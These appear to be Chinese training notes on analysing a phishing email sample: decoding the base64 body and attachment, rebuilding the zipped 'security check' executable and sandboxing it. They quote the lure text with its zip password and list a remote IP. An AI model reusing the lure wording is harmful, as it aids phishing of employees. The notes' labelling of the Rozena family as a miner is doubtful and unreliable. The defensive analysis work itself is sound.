#### 2024hw演示案例

2024hw钓鱼邮件样本：小迪2023第217天/check.eml

- 由于只给了eml样本，所以附件及其邮件内容需要自己进行还原

------

**1.还原邮件内容及附件**

首先对邮件的原内容的信息头进行审查，发现里面涉及的ip在威胁情报平台没有什么有用的信息，接下来对邮件原内容的内容主机进行审查，原内容字段显示为base64加密，将内容进行base64解密，解密内容如下：

```
你好！
近期微软高危漏洞爆发，已出现新型勒索病毒，为做好安全防护需对所有员工电脑进行安全自查，附件为安全检测程序，烦请在电脑上执行此程序，若检测无问题，请回复，感谢！
请勿外传本程序！
解压密码为2021@123456
```

查看附件内容，先看filename字段查看附件名字，发现为filename的值为base64加密的密文，进行解密，解密后为

```
电脑安全检查工具.zip
```

确定了附件的后缀为zip后，以下将对该附件进行还原，以linux系统为例

将邮件eml原文中附件内容的密文复制粘贴为到一个新的文件1.txt，执行命令

```
cat 1.txt| base64 -d > 1.zip
```

此时新生成的1.zip文件就为还原后的附件

打开1.zip，里面发现程序

```
终端自查工具.exe
```

输入解压密码并进行解压，获取exe恶意文件

------

**2.对恶意程序进行分析并进行定性**

将程序样本传至安全平台微步云沙箱进行分析，确定木马家族为Rozena,搜寻Rozena木马是什么，得知为挖矿病毒，定性病毒为挖矿

同时，在微步云沙箱的行为检测中得知对方的恶意程序做了反检测技术【不能在虚拟机中运行】，所以最后应该放到一个远程服务器靶场上进行尝试运行进行人工分析

同时，在微步云沙箱的网络行为分析中得知对方远程连接ip107.16.111.57,对该ip上传到威胁情报平台进行分析


# -恶意供应链软件

# -近源攻击

参考文章：https://mp.weixin.qq.com/s/WBFTtAuyC7PauFZbNBja5Q

# -DDOS攻击

